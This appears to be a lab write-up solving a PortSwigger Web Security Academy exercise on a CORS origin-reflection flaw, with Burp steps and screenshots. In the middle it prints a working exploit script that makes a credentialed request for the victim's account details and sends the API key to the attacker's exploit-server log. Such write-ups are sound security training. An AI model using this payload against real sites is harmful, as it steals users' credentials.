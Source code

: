 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/72d0eaf3-6029-4376-afef-1d60db09486a)

# Solution:

Check intercept is off, then use the browser to log in and access your account page.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/03410974-3006-4a9b-b0d8-bcdf3f63f31e)

Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/af5ec611-c4cd-44bc-88a0-39bb35a3219d)

Send the request to Burp Repeater, and resubmit it with the added header:

`Origin: https://example.com`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7f2b86cd-6fe3-499c-93fe-2220e137b57b)

Observe that the origin is reflected in the Access-Control-Allow-Origin header.

In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/37da6202-1225-4b21-8c6a-93dea30ac933)

Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6312fe7c-c004-40b8-819f-7f6309206261)

Go back to the exploit server and click Deliver exploit to victim.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9d296ad9-1e8a-42db-ab02-6525f677ecae)

Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/c7c451bf-da9c-4434-8316-2d5593122345)

API KEY: `vu0wnG9E0SoHQgbtWvAkjFgBAtI2kEHT`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/cc417157-9914-4236-98e3-619a105b6876)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/63f7d364-1fb8-4a5f-ba5d-feb0fe89e4de)



